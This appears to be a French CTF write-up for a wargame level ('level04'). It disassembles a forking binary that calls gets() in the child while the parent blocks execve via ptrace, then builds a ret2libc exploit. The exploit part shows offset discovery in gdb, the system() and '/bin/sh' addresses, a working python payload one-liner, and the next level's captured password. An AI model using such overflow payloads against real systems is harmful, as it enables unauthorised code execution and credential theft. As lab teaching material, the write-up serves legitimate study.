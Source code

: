 # Analyse

## Binaire

`./level04`
```
Give me some shellcode, k

```
`test`
```

child is exiting...
```
## Gdb

`info function`
```asm
[...]
  0x080486c8  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x080486c8 <+0>:	push   ebp
   0x080486c9 <+1>:	mov    ebp,esp
   0x080486cb <+3>:	push   edi
   0x080486cc <+4>:	push   ebx
   0x080486cd <+5>:	and    esp,0xfffffff0
   0x080486d0 <+8>:	sub    esp,0xb0                             ; 176 octets pour la stack
   0x080486d6 <+14>:	call   0x8048550 <fork@plt>
   0x080486db <+19>:	mov    DWORD PTR [esp+0xac],eax             ; int pid @ esp+0xac = fork();
   0x080486e2 <+26>:	lea    ebx,[esp+0x20]                       ; input @ esp+0x20
   0x080486e6 <+30>:	mov    eax,0x0
   0x080486eb <+35>:	mov    edx,0x20
   0x080486f0 <+40>:	mov    edi,ebx
   0x080486f2 <+42>:	mov    ecx,edx
   0x080486f4 <+44>:	rep stos DWORD PTR es:[edi],eax             ; memset(buffer, 0, 32);
   0x080486f6 <+46>:	mov    DWORD PTR [esp+0xa8],0x0             ; int ret @ esp+0xa8 = 0
   0x08048701 <+57>:	mov    DWORD PTR [esp+0x1c],0x0             ; int status @ esp+0x1c = 0
   0x08048709 <+65>:	cmp    DWORD PTR [esp+0xac],0x0
   0x08048711 <+73>:	jne    0x8048769 <main+161>                 ; if pid != 0:  jump <+161> 
   0x08048713 <+75>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804871b <+83>:	mov    DWORD PTR [esp],0x1
   0x08048722 <+90>:	call   0x8048540 <prctl@plt>                ; prctl(1, 1);
   0x08048727 <+95>:	mov    DWORD PTR [esp+0xc],0x0
   0x0804872f <+103>:	mov    DWORD PTR [esp+0x8],0x0
   0x08048737 <+111>:	mov    DWORD PTR [esp+0x4],0x0
   0x0804873f <+119>:	mov    DWORD PTR [esp],0x0
   0x08048746 <+126>:	call   0x8048570 <ptrace@plt>               ; ptrace(0, 0, 0, 0);
   0x0804874b <+131>:	mov    DWORD PTR [esp],0x8048903
   0x08048752 <+138>:	call   0x8048500 <puts@plt>                 ; puts("Give me some shellcode, k");
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>                 ; gets(input);
   0x08048763 <+155>:	jmp    0x804881a <main+338>                 ; jump <+338>
   0x08048768 <+160>:	nop
   0x08048769 <+161>:	lea    eax,[esp+0x1c]
   0x0804876d <+165>:	mov    DWORD PTR [esp],eax
   0x08048770 <+168>:	call   0x80484f0 <wait@plt>                 ; wait(&status);
   0x08048775 <+173>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048779 <+177>:	mov    DWORD PTR [esp+0xa0],eax
   0x08048780 <+184>:	mov    eax,DWORD PTR [esp+0xa0]
   0x08048787 <+191>:	and    eax,0x7f
   0x0804878a <+194>:	test   eax,eax
   0x0804878c <+196>:	je     0x80487ac <main+228>                 ; if status & 0x7f == 0: jump <+228>
   0x0804878e <+198>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048792 <+202>:	mov    DWORD PTR [esp+0xa4],eax
   0x08048799 <+209>:	mov    eax,DWORD PTR [esp+0xa4]
   0x080487a0 <+216>:	and    eax,0x7f
   0x080487a3 <+219>:	add    eax,0x1
   0x080487a6 <+222>:	sar    al,1
   0x080487a8 <+224>:	test   al,al
   0x080487aa <+226>:	jle    0x80487ba <main+242>                 ; if (status & 0x7f) >> 1 <= 0: jump <+242>
   0x080487ac <+228>:	mov    DWORD PTR [esp],0x804891d
   0x080487b3 <+235>:	call   0x8048500 <puts@plt>                 ; puts("child is exiting...");
   0x080487b8 <+240>:	jmp    0x804881a <main+338>                 ; return(0);
   0x080487ba <+242>:	mov    DWORD PTR [esp+0xc],0x0
   0x080487c2 <+250>:	mov    DWORD PTR [esp+0x8],0x2c
   0x080487ca <+258>:	mov    eax,DWORD PTR [esp+0xac]
   0x080487d1 <+265>:	mov    DWORD PTR [esp+0x4],eax
   0x080487d5 <+269>:	mov    DWORD PTR [esp],0x3
   0x080487dc <+276>:	call   0x8048570 <ptrace@plt>
   0x080487e1 <+281>:	mov    DWORD PTR [esp+0xa8],eax             ; ret = ptrace(3, pid, 44, 0)
   0x080487e8 <+288>:	cmp    DWORD PTR [esp+0xa8],0xb
   0x080487f0 <+296>:	jne    0x8048768 <main+160>                 ; if ret !== 11: jump <+160> (boucle)
   0x080487f6 <+302>:	mov    DWORD PTR [esp],0x8048931
   0x080487fd <+309>:	call   0x8048500 <puts@plt>                 ; puts("no exec() for you");
   0x08048802 <+314>:	mov    DWORD PTR [esp+0x4],0x9
   0x0804880a <+322>:	mov    eax,DWORD PTR [esp+0xac]
   0x08048811 <+329>:	mov    DWORD PTR [esp],eax
   0x08048814 <+332>:	call   0x8048520 <kill@plt>                 ; kill(pid, 9);
   0x08048819 <+337>:	nop
   0x0804881a <+338>:	mov    eax,0x0                              ; return(0);
   0x0804881f <+343>:	lea    esp,[ebp-0x8]
   0x08048822 <+346>:	pop    ebx
   0x08048823 <+347>:	pop    edi
   0x08048824 <+348>:	pop    ebp
   0x08048825 <+349>:	ret
End of assembler dump.
```

# Exploit

Le programme crée un child process avec un fork() qui exécute un peu plus loin un appel à gets() sur l'input que nous contrôlons (donc vulnérable à un buffer overflow), puis return.

Le parent quant à lui boucle en suivant l'exécution du child, tant qu'il ne lance pas le syscall [11: execve()](https://redirect.cs.umbc.edu/courses/undergraduate/313/spring04/burt_katz/lectures/Lect07/syscall_offline.html):
Attend un changement de statut de l'enfant, s'il a été interrompu ou a quitté (cf. [waitstatus.h](https://github.com/lattera/glibc/blob/master/bits/waitstatus.h)), affiche "child is exiting..." et return(0); 

En sortie de boucle (l'enfant a tenté un execve()), il affiche "no exec() for you", le kill et retun(0);

La stack est exécutable, mais le check sur execve() nous empêche de lancer un shellcode classique donc on va opter pour la même approche que dans le level01: un [retour a la libc](https://beta.hackndo.com/retour-a-la-libc/).

Pour trouver l'offset on va devoir spécifier à gdb de suivre l'exécution du process enfant et se servir comme d'habitude du [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

`gdb level04`
- `set follow-fork-mode child`
- `r`
  ```
  Starting program: /home/users/level04/level04
  [New process 3213]
  Give me some shellcode, k
  Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

  Program received signal SIGSEGV, Segmentation fault.
  [Switching to process 3213]
  0x41326641 in ?? ()
  ```
  - Le générateur de pattern nous indique un offset de 156 pour la valeur 0x41326641

Notre exploit sera composé comme suit: [ Offset de 156 (NopSled) ] [ Adresse system() ] [ Adresse retour (osef) ] [ Adresse "/bin/sh" ].

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- L'adresse de system() est 0xf7e6aed0 (\xd0\xae\xe6\xf7)

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
- L'adresse de "/bin/sh" est 0xf7f897ec (\xec\x97\xf8\xf7)

`(python -c 'print "\x90" * 156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"'; cat - ) | ./level04`
```
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

